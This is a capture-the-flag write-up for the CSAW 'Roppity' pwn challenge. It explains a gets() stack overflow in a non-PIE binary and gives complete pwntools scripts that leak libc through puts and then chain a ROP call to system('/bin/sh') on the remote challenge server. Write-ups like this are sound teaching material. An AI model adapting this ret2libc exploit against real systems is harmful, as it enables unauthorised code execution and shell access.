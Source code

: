 # Roppity (Pwn 50 pts)

### Challenge 
> We given a binary file `rop` and libc file `libc-2` .

The title of challenge suggests it is a ROP(Return-Oriented Programming) challenge

Analysing File:

 ```
rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d177aa372f308c07c8daaddec53df7c5aafd630, not stripped
```
Checksec:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Decompile with Hopper.

```C
int main() {
    init();
    puts("Hello");
    gets(&var_20);
    return 0x0;
}
```


The main function prints the hello then takes our input using gets and exits

So Basic Idea of Exploitation

Using puts_got address as argument to puts_plt so that we can leak the puts address,Then get back to main so we can exploit the overflow again.

**Leaking Libc_base:**




```python
from pwn import *

buf = 40*'A'

elf = ELF('./rop')

p = remote('pwn.chal.csaw.io',5016)

libc = ELF('libc-2.27.so')

context.clear(arch='amd64')

rop = ROP('rop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

payload1 = buf #Overwrite RIP

payload1 += p64(pop_rdi) #Sets the address of gadget so next address saves into the RDI registry

payload1 += p64(puts_got) #puts_got to save in RDI (to argument for the following function)

payload1 += p64(puts_plt) #calling puts_plt ,so puts will read the content inside puts_got and will print it out.

payload1 += p64(main) #to get back to main function

p.clean()
p.sendline(payload1)

recieved = p.recvline().strip()

puts_leak = u64(recieved.ljust(8, "\x00"))


libc.address = puts_leak - libc.symbols['puts']

log.info("Leaked libc address",hex(libc.address))
```
We got the Libc_base, the thing is to get shell .

Finding `system` function address and `/bin/sh` string address

```python
binsh = next(libc.search("/bin/sh"))

system = libc.sym["system"]
```

We have everything we need to get shell 

## The Final Script to get Shell

```python
from pwn import *

buf = 40*'A'

elf = ELF('./rop')

p = remote('pwn.chal.csaw.io',5016)

libc = ELF('libc-2.27.so')

context.clear(arch='amd64')

rop = ROP('rop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

paylaod1 = buf 
paylaod1 += p64(pop_rdi) 
paylaod1 += p64(puts_got)
paylaod1 += p64(puts_plt)
paylaod1 += p64(main)

p.clean()
p.sendline(paylaod1)

recieved = p.recvline().strip()

puts_leak = u64(recieved.ljust(8, "\x00"))


libc.address = puts_leak - libc.symbols['puts']

log.info("Leaked libc address",hex(libc.address))

binsh = next(libc.search("/bin/sh"))

system = libc.sym["system"]

exit = libc.sym["exit"]

payload2 = buf  #buffer to overwrite RIP

payload2 += p64(ret) # to align Stack

payload2 += p64(pop_rdi) # to put the next address into RDI 

payload2 += p64(binsh)  #bin/sh address

payload2 += p64(system) # call to system; system('bin/sh')

payload2 += p64(exit) # fake functioin address

p.clean()
p.sendline(payload2)
p.interactive()
```



